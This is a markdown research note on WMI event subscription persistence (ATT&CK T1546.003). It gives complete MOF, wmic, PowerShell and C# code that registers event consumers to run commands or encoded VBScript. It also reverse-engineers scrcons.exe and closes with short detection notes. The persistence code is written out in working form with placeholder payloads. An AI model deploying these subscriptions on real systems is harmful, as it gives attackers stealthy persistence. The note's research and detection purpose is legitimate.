



# T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription

## Keynote

Requires Admin Privilege  

Setting persistance by:

- Executing mofcomp.exe on specially crafted mof file
- Register WMI Event with CommandLineEventConsumer
- Register WMI Event with ActiveScriptEventConsumer

## Setting persistance

- `mofcomp.exe` <your_mof_file>.mof

```c++
#PRAGMA NAMESPACE (".rootsubscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "TESTING";
    RunInteractively=false;
    CommandLineTemplate="cmd.exe";
};
instance of __EventFilter as $Filt
{
    Name = "TESTING";
    EventNamespace = "rootsubscription";
    Query = "SELECT * FROM __InstanceModificationEvent Within 3"
        "Where TargetInstance Isa \"Win32_Process\" "
        "And Targetinstance.Name = \"notepad.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{
     Filter = $Filt;
     Consumer = $Cons;
};
```

- WMI

```powershell
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="Testing", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 3 WHERE TargetInstance ISA 'Win32_Process' AND Targetinstance.Name='notepad.exe'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="Testing", ExecutablePath="C:\Windows\System32\cmd.exe",CommandLineTemplate="cmd /c powershell mkdir C:\Users\<USER_NAME>\Desktop\WMITEST"

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"Testing\"", Consumer="CommandLineEventConsumer.Name=\"Testing\""
```

- Powershell

```powershell
$FilterArgs = @{name='Testing';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 3 WHERE TargetInstance ISA 'Win32_Process' AND Targetinstance.Name='notepad.exe'"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
 
$ConsumerArgs = @{name='Testing';
                CommandLineTemplate="cmd /c powershell mkdir C:\Users\<USER_NAME>\Desktop\WMITEST";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
 
$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

- Crafted Binary

```c#
// From MDSEC
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmi_persist
{
    class Program
    {
        static void Main(string[] args)
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            string vbscript64 = "<BASE64_TEXT>";
            string vbscript = Encoding.UTF8.GetString(Convert.FromBase64String(vbscript64));
            try
            {
                ManagementScope scope = new ManagementScope(@".rootsubscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new
                ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceCreationEvent WITHIN 5 " +
                    "WHERE TargetInstance ISA "Win32_Process" " +
                    "AND TargetInstance.Name = "notepad.exe"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"rootcimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");
                
                // ActiveScriptEventConsumer
                myEventConsumer = new ManagementClass(scope, new ManagementPath("ActiveScriptEventConsumer"), null).CreateInstance();
                myEventConsumer["Name"] = "BadActiveScriptEventConsumer";
                myEventConsumer["ScriptingEngine"] = "VBScript";
                myEventConsumer["ScriptText"] = vbscript;
                myEventConsumer.Put();

                // CommandLineEventConsumer
                /*myEventConsumer =
                new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"),
                null).CreateInstance();
                myEventConsumer["Name"] = "BadCommandLineEventConsumer";
                myEventConsumer["ExecutablePath"] = @"C:WindowsSystem32cmd.exe";
                myEventConsumer["CommandLineTemplate"] = @"cmd /c powershell mkdir <YOUR_PATH>";
                myEventConsumer.Put();*/

                Console.WriteLine("[*] Event consumer created.");

                myBinder =
                new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"),
                null).CreateInstance();
                myBinder["Filter"] = myEventFilter.Path.RelativePath;
                myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
                myBinder.Put();

                Console.WriteLine("[*] Subscription created");
            }
            catch (Exception e)
            {
                Console.WriteLine(e);
            }
        }
    }
}

```

## Analysis on scrcons.exe
### Code execution: Calling COM object `IActiveScript`
Noteable Call Stack  
Initiation part


Loading the script text inside `CScriptSink::Initialize`


The script text code will be execute in `CScriptSink::RunScriptText`



## Analysis on `CScriptSink::RunScriptText`
Based on pseudocode, we can see that `IActiveScript` plays a big role in executing the script data. Since the CreateInstance call is using `IID_IActiveScript` as the interface.

Probably we can replicate it by using calling the COM object `IActiveScript`.

Script reimplementation by utilising `IActiveScript` COM object can be found [here](https://github.com/ghoulgy/RandomCodes/blob/master/cpp/com_iactive_exec.cpp)

```c
**int64 **fastcall CScriptSink::RunScriptText(CScriptSink *this, struct IWbemClassObject *a2)
{

_InterlockedIncrement((volatile signed **int32 *)&WMIScriptClassFactory::m_scriptsStarted);
if ( WMIScriptClassFactory::m_scriptsStarted >= WMIScriptClassFactory::m_scriptsAllowed )
{
CoSuspendClassObjects();
WMIScriptClassFactory::m_bWeDeadNow = 1;
}
// CreateInstance, similar to CoCreateInstance
v4 = ((__int64 (__fastcall *)(lpvtbl_CVBScriptClassFactory *, _QWORD, GUID *, struct IActiveScript **))CScriptsink->lpvtbl_CVBScriptClassFactory->vtbl_CVBScriptClassFactory->CreateInstance)(
         CScriptsink->lpvtbl_CVBScriptClassFactory,
         0i64,
         &IID_IActiveScript,
         &IActiveScript); 
 ...
// IActiveScript::QueryInterface 
v4 = ((**int64 (**fastcall _)(struct IActiveScript _, GUID *, struct IActiveScript **))IActiveScript->lpVtbl->QueryInterface)(
IActiveScript,
&IID_IActiveScriptParse64,
&COleScript);
...
ppbc = 0i64;
ppmk = 0i64;
pchEaten = 0;
v4 = CreateBindCtx(0, &ppbc);
...
v4 = ((**int64 (**fastcall _)(LPBC, const wchar_t _, struct IWbemClassObject *))ppbc->lpVtbl->RegisterObjectParam)(
ppbc,
L"WmiObject",
a2);
...
v4 = MkParseDisplayName(ppbc, L"winmgmts:", &pchEaten, &ppmk);
...
v4 = ((**int64 (**fastcall _)(LPMONIKER, LPBC, _QWORD, GUID _, **int64 _))ppmk->lpVtbl->BindToObject)(
ppmk,
ppbc,
0i64,
&IID_ISWbemObject,
&v35);
...
if ( v35 )
(_(void (**fastcall **)(**int64))(_(_QWORD _)v35 + 16i64))(v35);
// IActiveScript::SetScriptSite
((void (**fastcall _)(struct IActiveScript _, _QWORD *))IActiveScript->lpVtbl->SetScriptSite)(IActiveScript, v16);
// COleScript::InitNew
v4 = ((**int64 (**fastcall _)(struct IActiveScript _))COleScript->lpVtbl->InitNew)(COleScript);
...
// COleScript::ParseScriptText
v4 = ((**int64 (**fastcall _)(struct IActiveScript _, _QWORD, _QWORD, _QWORD, _QWORD))COleScript->lpVtbl->ParseScriptText)(
COleScript,
CSinkScript->script_text),
0i64,
0i64,
0i64);  
 ...
// COleScript::Release
((void (**fastcall _)(struct IActiveScript _))COleScript->lpVtbl->Release)(COleScript);
...
// IActiveScript:: SetScriptState
// Execute script by changing the script state, SCRIPTSTATE_CONNECTED (2) 
v4 = ((**int64 (**fastcall _)(struct IActiveScript _, __int64))IActiveScript->lpVtbl->SetScriptState)(IActiveScript, SCRIPTSTATE_CONNECTED); 
}
```

## Struct

```c++
struct __declspec(align(8)) CSinkScript
{
  vtbl_CUnk *vtbl_CUnk;
  _QWORD unk_1;
  _QWORD unk_2;
  _QWORD unk_3;
  _QWORD unk_4;
  _QWORD *unk_5;
  _QWORD script_text;
  _QWORD unk_6;
  _QWORD unk_7;
  _QWORD unk_8;
  lpvtbl_CVBScriptClassFactory *lpvtbl_CVBScriptClassFactory;
  _QWORD *p18570;
  _QWORD unk_error_3;
  _QWORD unk_error_2;
  _QWORD unk_error_1;
};
```

## Detection

## Process

- Existing `scrcons.exe` process which have the suspicious WMI Subscription. 
- `wmic.exe` contains commandline to register WMI subscription event.
- `mofcomp.exe` compiling any .mof files that successfully registered new WMI subscription event.

## Windows Event Log

- Powershell Log
- WMI Log

## References

<https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-3-wmi-event-subscription/>  
<https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/>  
<https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/>  
<https://alexia.codes/blog/2022/03/19/research-notes-wmi/>  
<https://specterops.io/wp-content/uploads/sites/3/2022/06/Subverting_Sysmon.pdf>  

Com programming  
<https://flylib.com/books/en/3.357.1.34/1/>  
<https://stackoverflow.com/questions/30262000/executing-cscript-using-iactivescript-with-c>  
<https://stackoverflow.com/questions/16846386/run-javascript-function-from-c-without-mfc>  
<https://stackoverflow.com/questions/7491868/how-to-load-call-a-vbscript-function-from-within-c>
